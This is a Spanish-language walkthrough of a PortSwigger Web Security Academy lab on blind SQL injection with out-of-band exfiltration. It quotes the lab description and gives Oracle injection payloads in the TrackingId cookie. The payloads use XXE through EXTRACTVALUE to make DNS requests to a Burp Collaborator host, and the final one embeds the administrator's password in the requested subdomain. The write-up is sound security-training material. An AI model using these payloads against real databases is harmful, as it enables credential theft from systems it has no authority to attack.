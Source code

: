 # Lab: Blind SQL injection with out-of-band data exfiltration

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user. 

`Note`: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server. 

[SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)


---
Objetivos:
- Explotar una SQLi e imprimir la contraseña del usuario `administrator`.
- Autenticarse como `administrator`.

---

Iniciamos el laboratorio y nos encontramos con un shop online, el cual tiene el parámetro `TrackingId` vulnerable:
<img width="1506" height="781" alt="image" src="https://github.com/user-attachments/assets/63f4a52e-704f-40d9-b43c-afb3aee2f0bb" />

Obtenemos nuestro cliente Collaborator: `ibxpii8obs96pxojmvp46wjkpbv2jt7i.oastify.com`

Podemos utilizar el payload del laboratorio anterior para realizar un DNS lookup:
```sql
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://3lpas3i9ldjrziy4wgzpght5zw5ntdh2.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```
Vemos que obtenemos peticiones a nuestro Collaborator, por lo que confirmamos que nos encontramos ante un motor Oracle.

Utilizamos nuestro SQLi Cheat sheet y e inyectamos el payload para exfiltrar data correspondiente a Oracle:


```sql
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.ibxpii8obs96pxojmvp46wjkpbv2jt7i.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```




